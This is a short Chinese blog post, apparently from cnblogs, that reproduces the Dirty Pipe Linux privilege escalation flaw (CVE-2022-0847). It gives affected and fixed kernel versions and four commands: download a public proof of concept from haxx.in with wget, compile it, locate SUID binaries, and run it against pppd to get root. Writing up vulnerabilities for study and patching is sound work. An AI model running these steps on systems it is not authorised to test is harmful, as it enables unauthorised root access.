

# CVE-2022-0847 本地提权复现 - 与或非丶 - 博客园

> 原文：[`www.cnblogs.com/andyhf/p/15984045.html`](https://www.cnblogs.com/andyhf/p/15984045.html)

## 漏洞影响范围

Linux Kernel >= 5.8
Linux Kernel < 5.16.11 / 5.15.25 / 5.10.102

## 漏洞描述

CVE-2022-0847 本地提权漏洞，通过利用海漏洞，可以覆盖重写任意文件中的数据，从而可以将普通权限的用户提升到 root 权限，类似于于 CVE-2016-5195 的脏牛漏洞(Dirty Cow)，但是它更容易被利用，漏洞作者命名为 Dirty Pipe。

## 漏洞复现

1.  下载该漏洞的 POC
    wget [`haxx.in/files/dirtypipez.c`](https://haxx.in/files/dirtypipez.c)

2.  gcc dirtypipez.c -o dirtypipez 编译该 POC
    

3.  find / -perm -u=s -type f 2>/dev/null 查找具有 SUID 权限的可执行文件，然后通过这个文件提权到 root
    

4.  └─$ ./dirtypipez /usr/sbin/pppd 执行可执行的权限，成功提权到 root
    

## 漏洞修复

更新升级 Linux 内核到以下安全版本：
Linux 内核 >= 5.16.11
Linux 内核 >= 5.15.25
Linux 内核 >= 5.10.102